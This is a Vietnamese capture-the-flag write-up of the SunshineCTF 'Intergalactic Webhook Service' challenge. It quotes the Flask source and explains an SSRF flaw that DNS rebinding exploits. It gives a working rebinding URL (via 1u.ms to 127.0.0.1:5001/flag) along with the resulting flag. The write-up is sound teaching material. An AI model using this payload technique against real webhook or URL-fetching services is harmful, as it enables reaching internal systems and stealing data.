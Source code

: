 # **Intergalactic Webhook Service**

![image.png](attachment:6fbf2c7f-faf7-4fe7-8e49-c8d775439c4f:image.png)

Bài này có source nên có thể tham khảo source ở đây: [Writeup_SunshineCTF/src at main · TranDongA3/Writeup_SunshineCTF](https://github.com/TranDongA3/Writeup_SunshineCTF/tree/main/src)

Bài này thì có 2 chức năng chính sau:

![image.png](attachment:2b282bb6-1ad3-432c-9cab-3840f0b8d534:image.png)

```
@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200
```

```python
@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500
```

Đăng ký webhook, và kích hoạt webhook id trả về từ đăng ký.

Ngoài ra còn có hàm phụ như là:

```python
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None
```

Hàm này để check url thôi, hàm urlparse(url) dùng để tách các phần của url để kiểm tra tính hợp lệ , ip sẽ tiến hành lấy ip từ tên miền bằng hàm socket.gethostbyname(host)nếu mà thuộc những trường hợp kiểm tra như trên thì trả về False.

Nếu mà thành công thì trả về:

return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

Và có thể lấy id này để trigger đến URL . Ở đây mục tiêu flag của chúng ta đang nằm ở [localhost](http://localhost) :

```python
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

Có một luồng được khởi tạo song song với chương trình chạy ở [localhost](http://localhost) cồng 5001, thực hiện function FlagHanlder, nếu nếu là /flag thì sẽ trả về nội dung của nó . Lỗi này sẽ thấy rõ luôn là SSRF cụ thể là dùng kỹ thuật DNS rebinding để khai thác.

Cơ bản về kỹ thuật đó chính là dùng một tên miền ban đầu phân giải sẽ được một địa chỉ ip public như 8.8.8.8 (hoặc khác) nhưng mà lần sau sẽ phân giải ra là 127.0.0.1 . Để hiện thực hóa kỹ thuật đó ta sẽ dùng một dịch vụ có sẵn là : http://1u.ms/

Ta thử : 

![image.png](attachment:118beaa9-1edb-4bb4-836d-74e7e8529576:image.png)

Quá hay đúng không. Cụ thể hơn sẽ là trường hợp này:

http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag

![image.png](attachment:7237a098-f506-4fa0-b4a8-bf7386fa4efb:image.png)

Sau khi đăng ký trả về như này:

`{"id":"2ce6a28c-f69c-4b59-9d75-38d306734406","status":"registered","url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`

Lấy id để trigger thì được:

`{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`